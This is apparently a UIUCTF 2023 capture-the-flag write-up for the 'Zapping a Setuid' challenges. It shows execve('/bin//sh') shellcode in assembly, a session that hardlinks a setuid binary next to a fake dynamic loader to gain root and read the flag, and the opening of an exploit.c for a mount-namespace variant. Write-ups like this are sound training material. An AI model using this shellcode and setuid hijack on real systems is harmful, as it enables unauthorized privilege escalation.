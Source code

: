 ```
    push %rsp
    pop %rsi
    xor %rdx,%rdx
    push %rdx
    mov $0x68732f2f6e69622f,%rdi
    push %rdi
    push %rsp
    pop %rdi
    mov $59,%al
    cdq
    syscall
.cfi_endproc
```

Zapping a Setuid 1: setting the hardlink suffice:
```
$ socat file:$(tty),raw,echo=0 tcp:zapp-setuid-1.chal.uiuc.tf:1337
== proof-of-work: disabled ==
+ mount -n -t proc -o nosuid,noexec,nodev proc /proc/
+ mount -n -o remount,rw /
+ mkdir -p /dev /sys /etc
+ mount -n -t sysfs -o nosuid,noexec,nodev sys /sys
+ mount -n -t tmpfs -o mode=1777 tmpfs /tmp
+ mount -n -t 9p flag -o nosuid,noexec,nodev,version=9p2000.L,trans=virtio,msize=104857600,access=0 /mnt
+ cd /home/user
+ exec setsid bash -l
uiuctf-2023:/home/user# ./init_chal zapp-setuid-1
+ case "$1" in
+ rm -r virophage virophage.c am-i-not-root am-i-not-root.c
+ ln -s /usr/lib/zapps zapps
+ sysctl -w fs.protected_hardlinks=0
fs.protected_hardlinks = 0
uiuctf-2023:/home/user# exec setpriv --init-groups --reset-env --reuid user --regid user bash -l
uiuctf-2023:~$ vi payload.S
uiuctf-2023:~$ gcc -o ld-linux-x86-64.so.2 -static-pie -nostartfiles -Wl,--gc-sections payload.S
uiuctf-2023:~$ ln zapps/build/exe exe
uiuctf-2023:~$ ./exe
/home/user # cat /mnt/flag
uiuctf{did-you-see-why-its-in-usr-lib-now-0cd5fb56}
```

The flag is a reference to the protection in glibc.

Zapping a Setuid 2: do the namespace dance, where the child in its namespace modify the mount tree, and have the mount tree cloned by the parent which
execveat into the modified mount tree. The send/recv fd via `SCM_RIGHTS` isn't
necessary; there are simpler ways to do it, such as with `/proc/<pid>/fd` but
I already had the code ready with `SCM_RIGHTS` and didn't bother simplifying.

exploit.c:
```C
// SPDX-License-Identifier: Apache-2.0
/*
 * Copyright 2023 Google LLC.
 */

#define _GNU_SOURCE

#include <errno.h>
#include <fcntl.h>
#include <linux/mount.h>
#include <sched.h>
#include <stdarg.h>
#include <stdio.h>
```